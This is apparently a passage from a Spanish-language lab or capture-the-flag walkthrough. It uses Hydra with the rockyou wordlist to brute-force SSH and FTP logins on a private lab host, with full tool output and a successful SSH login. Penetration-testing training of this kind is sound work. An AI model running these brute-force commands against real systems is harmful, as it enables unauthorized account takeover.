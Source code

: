 Primero, probemos contra el **servicio SSH**:
```bash
hydra -l 'secretote' -P /usr/share/wordlists/rockyou.txt ssh://192.168.10.40 -t 64
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2025-05-08 15:06:30
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[WARNING] Restorefile (you have 10 seconds to abort... (use option -I to skip waiting)) from a previous session found, to prevent overwriting, ./hydra.restore
[DATA] max 64 tasks per 1 server, overall 64 tasks, 14344399 login tries (l:1/p:14344399), ~224132 tries per task
[DATA] attacking ssh://192.168.10.40:22/
[STATUS] 707.00 tries/min, 707 tries in 00:01h, 14343718 to do in 338:09h, 38 active
[22][ssh] host: 192.168.10.40   login: secretote   password: ******
1 of 1 target successfully completed, 1 valid password found
[WARNING] Writing restore file because 32 final worker threads did not complete until end.
[ERROR] 32 targets did not resolve or could not be connected
[ERROR] 0 target did not complete
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2025-05-08 15:08:47
```
Genial, tenemos la contraseña.

Probémosla:
```bash
ssh secretote@192.168.10.40
secretote@192.168.10.40's password: 
Linux chocolate 6.1.0-21-amd64 #1 SMP PREEMPT_DYNAMIC Debian 6.1.90-1 (2024-05-03) x86_64
...
secretote@chocolate:~$
```
Listo, estamos dentro.

También podemos aplicar contra el **servicio FTP**:
```bash
hydra -l 'secretote' -P /usr/share/wordlists/rockyou.txt ftp://192.168.10.40 -t 64
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2025-05-08 14:26:19
[WARNING] Restorefile (you have 10 seconds to abort... (use option -I to skip waiting)) from a previous session found, to prevent overwriting, ./hydra.restore
[DATA] max 64 tasks per 1 server, overall 64 tasks, 14344399 login tries (l:1/p:14344399), ~224132 tries per task
[DATA] attacking ftp://192.168.10.40:21/
[STATUS] 817.00 tries/min, 817 tries in 00:01h, 14343596 to do in 292:37h, 50 active
[21][ftp] host: 192.168.10.40   login: secretote   password: ******
1 of 1 target successfully completed, 1 valid password found
[WARNING] Writing restore file because 18 final worker threads did not complete until end.
[ERROR] 18 targets did not resolve or could not be connected
[ERROR] 0 target did not complete
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2025-05-08 14:28:20
```
Igual, obtuvimos la contraseña.
